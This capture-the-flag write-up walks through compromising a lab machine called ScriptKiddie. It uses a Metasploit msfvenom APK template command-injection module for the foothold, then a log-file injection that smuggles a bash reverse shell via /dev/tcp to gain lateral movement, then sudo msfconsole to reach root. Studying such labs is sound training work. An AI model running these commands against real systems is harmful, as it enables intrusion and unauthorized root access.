 Target: 10.10.10.226

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.10.226

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 06:11 PDT
Nmap scan report for 10.10.10.226
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.226:5000

![index](scriptkiddie1.png)

### Findings:Looking for attack vectors

The website can run nmap, msfvenom, and searchsploit.
Look for possible exploits for these three services.


## Foothold:

This module exploits a command injection vulnerability in Metasploit Framework’s msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: msfvenom -p android/ -x

[Exploit Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection.rb)

Metasploit
```
$ msfconsole
```

```
search msfvenom
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set LHOST tun0
run
[+] msf.apk stored at /home/kali/.msf4/local/msf.apk
```

upload the file in template

![payload](scriptkiddie2.png)

opening a nc listener on port 4444
```
$ nc -lnvp 4444
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
kid@scriptkiddie:~$ id

uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

```
kid@scriptkiddie:~$ cat user.txt

<redacted>
```


## Lateral Movement:

looking for suspicious file/s
```
kid@scriptkiddie:~$ cd /home

kid@scriptkiddie:/home$ ls

pwn  kid

kid@scriptkiddie:/home$ cd pwn

kid@scriptkiddie:/home/pwn$ ls -la

total 44
drwxr-xr-x 6 pwn  pwn  4096 Feb  3 12:06 .
drwxr-xr-x 4 root root 4096 Feb  3 07:40 ..
lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
-rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pwn  pwn  3771 Feb 25  2020 .bashrc
drwx------ 2 pwn  pwn  4096 Jan 28 17:08 .cache
drwxrwxr-x 3 pwn  pwn  4096 Jan 28 17:24 .local
-rw-r--r-- 1 pwn  pwn   807 Feb 25  2020 .profile
-rw-rw-r-- 1 pwn  pwn    74 Jan 28 16:22 .selected_editor
drwx------ 2 pwn  pwn  4096 Feb 10 16:10 .ssh
drwxrw---- 2 pwn  pwn  4096 Feb  3 12:00 recon
-rwxrwxr-- 1 pwn  pwn   250 Jan 28 17:57 scanlosers.sh

kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 

#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

scanloser.sh assign /home/kid/logs/hackers to variable log then prints out its content then is piped to cut to remove the delimeter ' ' starting on the 3rd field onwards then is piped to sort to only see unique (no repeating) then is peiped to a while loop to read as ip and do a nmap scan to the ip.

opening another nc listener on port 4242
```
$ nc -lnvp 4242
```

crafting a reverse shell
```
kid@scriptkiddie:/home/pwn$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/<ip>/4242 0>&1' #" >> /home/kid/logs/hackers
```

```
pwn@scriptkiddie:~$ id

uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```


## Priv Escalations:

```
pwn@scriptkiddie:~$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
pwn@scriptkiddie:~$ sudo msfconsole
```

```
msf6 > id

uid=0(root) gid=0(root) groups=0(root)
```

```
msf6 > cat /root/root.txt

<redacted>
```
